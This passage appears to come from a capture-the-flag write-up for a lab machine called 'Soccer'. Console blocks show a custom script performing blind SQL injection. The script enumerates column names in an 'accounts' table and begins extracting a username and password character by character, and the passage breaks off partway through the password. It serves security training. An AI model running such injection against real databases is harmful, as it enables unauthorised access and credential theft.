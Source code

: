 I find only one table `accounts`.  Now I can find the columns in that table.
{% highlight console %}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM information_schema.COLUMNS where table_schema = 'soccer_db' and table_name='accounts' and COLUMN_NAME like '__loop__%'" f 
e
em
ema
emai
email
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM information_schema.COLUMNS where table_schema = 'soccer_db' and table_name='accounts' and COLUMN_NAME like '__loop__%' and COLUMN_NAME != 'email'" f
u
us
use
user
usern
userna
usernam
username
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM information_schema.COLUMNS where table_schema = 'soccer_db' and table_name='accounts' and COLUMN_NAME like '__loop__%' and COLUMN_NAME != 'email' and COLUMN_NAME != 'username'" f
i
id
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM information_schema.COLUMNS where table_schema = 'soccer_db' and table_name='accounts' and COLUMN_NAME like '__loop__%' and COLUMN_NAME != 'email' and COLUMN_NAME != 'username' and COLUMN_NAME != 'id'" f
p
pa
pas
pass
passw
passwo
passwor
password
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM information_schema.COLUMNS where table_schema = 'soccer_db' and table_name='accounts' and COLUMN_NAME like '__loop__%' and COLUMN_NAME != 'email' and COLUMN_NAME != 'username' and COLUMN_NAME != 'id' and COLUMN_NAME !='password'" f

{% endhighlight %}

Now I can extract data out of the username and password columns.
{% highlight console %}
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM accounts where username like '__loop__%'" f                        
p
pl
pla
play
playe
player
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM accounts where username like '__loop__%' and username != 'player'" f 
┌──(kali box)-[~/workSpace/Boxes/Soccer]
└─$ python3 soccer_sqli.py "FROM accounts where password like BINARY '__loop__%'" t         
P
Pl
Pla